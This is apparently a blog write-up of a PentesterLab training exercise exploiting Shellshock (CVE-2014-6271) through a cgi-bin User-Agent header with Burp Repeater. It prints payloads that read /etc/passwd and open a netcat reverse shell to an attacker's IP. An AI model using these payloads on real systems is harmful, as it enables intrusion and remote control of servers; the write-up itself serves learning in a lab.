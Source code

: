 ```yaml
---
title: Shellshock
date: "2017-09-08T22:40:32.169Z"
layout: post
path: "/pentesterlab/shellshock/"
category: "Pentesterlab"
tile: "sm-tile"
color: "pentesterlab"
previewPicture: "white-badge.png"
previewPictureText: "White Badge"
readTime: "20"
hide: false
description: "Use CVE-2014-6271 (Shellshock) to root a box."
---
```


<div class='daily-hack-box'>
	<table class='table'>
		<thead>
		</thead>
		<tbody>
			<tr>
				<th scope='row'>Challenge</th>
				<td>Exploit the box with CVE-2014-6271 (Shellshock)</td>
			</tr>
			<tr>
				<th scope='row'>Badge</th>
				<td>White Badge (3 of 6)</td>			
			</tr>
			<tr>
				<th scope='row'>Method</th>
				<td>Proxy with Repeater Mode</td>
			</tr>
			<tr>
				<th scope='row'>Link</th>
				<td>
                    <a class='table-link' target='_blank' href='https://pentesterlab.com/exercises/cve-2014-6271'>https://pentesterlab.com/exercises/cve-2014-6271</a>
                </td>
			</tr>
				<th scope='row'>Flag</th>
				<td>
                	<img style="height: 145px;" src="./congrats.png" alt="Completed Exercise">
                </td>
			</tr>
		</tbody>
	</table>
</div>

### Daily Hack #13 Writeup

I had done several shellshock labs and CTFs problems before so I will cruise through this one briefly.  First, I load up the web page with a proxy and Burp Suite open.  Immediately, I can identify a possible shellshock attack vector through the `cgi-bin` connection.


<figure>
    <img style="height: 280px;" src="./cgi-bin.png" alt="cgi-bin">
    <figcaption>Finding cgi-bin path</figcaption>
</figure>

<br>

Next, I send this to the repeater so I can modify this request.


<figure>
    <img style="height: 300px;" src="./send-to-repeater.png" alt="send-to-repeater">
    <figcaption>Sending to Repeater</figcaption>
</figure>

<br>


Test to see if this server is vulnerable to the shellshock vulnerability through this User Agent command:

```
() { :;}; echo; echo 'vulnerable to shellshock'
```


<figure>
    <img style="height: 300px;" src="./vulnerable-command.png" alt="vulnerable-command">
    <figcaption>Testing for Shellshock Vulnerability</figcaption>
</figure>

<br>


Note, I prepend the echo command before the actual payload command to avoid issues with headers when trying to read results. Another popular test is a User Agent command like:

```
() { :;}; echo $(</etc/passwd)
```

Which prints all of the `/etc/passwd` file.  Typically, I would follow this with a User Agent command to get root, such as:

```
() { :;}; /usr/bin/nc myIPaddress 4444 -e /bin/bash
```

However, since the environment doesn't always allow this, I simply use the scoring system to complete the challenge.


```
() { :;}; /usr/local/bin/score b12efbda-83b0-4201-9689-80fec51866cd
```


<figure>
    <img style="height: 300px;" src="./burp-score-on-server.png" alt="burp-score-on-server">
    <figcaption>Scoring on the Server</figcaption>
</figure>

<br>

And now I see my challenge has been completed!




<figure>
    <img style="height: 240px;" src="./congrats.png" alt="congrats">
    <figcaption>Completed the Exercise</figcaption>
</figure>

<br><br>
